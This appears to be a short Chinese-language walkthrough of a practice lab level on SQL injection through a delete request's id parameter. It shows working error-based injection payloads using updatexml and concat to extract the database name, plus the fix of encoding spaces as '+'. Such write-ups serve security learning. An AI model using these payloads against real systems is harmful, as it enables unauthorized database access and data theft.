


# delete注入

　　根据题目不难猜出 和删除有关系

　　先输入 再进行删除 并抓包

　　可以看到这里有?id参数

　　这里对?id=进行报错注入

　　payload：

　　?id=58 or updatexml(1,concat(0x7e,(select+database()),0x7e),1)

　　发现不行 原来是这关 被编译了 自己将 换为+或是

　　?id=58+or+updatexml(1,concat(0x7e,(select+database()),0x7e),1)

　　将database换为要查找的内容
